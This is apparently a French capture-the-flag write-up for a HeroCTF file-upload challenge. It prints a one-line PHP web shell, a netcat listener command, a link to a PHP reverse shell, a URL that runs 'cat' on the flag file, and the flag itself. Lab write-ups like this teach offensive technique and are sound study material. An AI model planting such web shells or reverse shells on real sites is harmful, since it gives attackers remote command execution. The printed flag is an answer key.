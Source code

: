 Ce challenge nous invite fortement à upload de quoi obtenir un shell.

Il existe 2 techniques pour celui-ci :

- Upload d'un reverse shell php (comme celui se trouvant ici : https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) et accès au shell via un `nc -lvp <port>`

- Upload d'un très court script php :
```php
<?php
  print_r(shell_exec($_GET['cmd']));
?>
```
On peut ensuite se balader dans l'arborescence via le paramètre `?cmd=` jusqu'à trouver le `flag.txt` dans le dossier `/dossiersupersecret`. On l'affiche donc simplement : `http://heroctf.fr:6200/tmp/shell.php?cmd=cat+/dossiersupersecret/flag.txt`

HeroCTF{4dm1n_sh0uld_ch3ck_th3_ext3ens1on}
